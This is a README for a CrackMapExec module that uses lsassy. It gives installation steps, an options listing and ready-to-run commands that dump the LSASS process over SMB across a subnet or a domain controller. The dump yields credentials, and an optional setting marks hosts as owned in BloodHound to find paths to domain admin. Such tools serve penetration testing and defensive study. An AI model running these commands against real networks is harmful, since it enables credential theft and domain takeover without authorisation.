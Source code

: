 ## Installation

* Copy `lsassy.py` in `[CME Path]/cme/modules`
* Reinstall CrackMapExec `python setup.py install`

## Requirements

* [lsassy](https://github.com/Hackndo/lsassy/)

## Usage

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            TMP_DIR             Path where process dump should be saved on target system (default: C:\Windows\Temp\)
            SHARE               Share to upload procdump and dump lsass (default: C$)
            PROCDUMP_PATH       Path where procdump.exe is on your system (default: /tmp/)
            PROCDUMP_EXE_NAME   Name of the procdump executable (default: procdump.exe)
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')

```

Options can be set using

```bash
cme smb dc01.adsec.local -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o PROCDUMP_PATH='/home/pixis/Tools/' PROCDUMP_EXE_NAME='procdump.exe'
```

## BloodHound integration

BloodHound additional information can be obtained. `BLOODHOUND` option may be switched to enable this functionality.

* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a path to domain admin

```bash
cme smb dc01.adsec.local -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

![CME Module example](/assets/cme_lsassy.gif)

Have fun
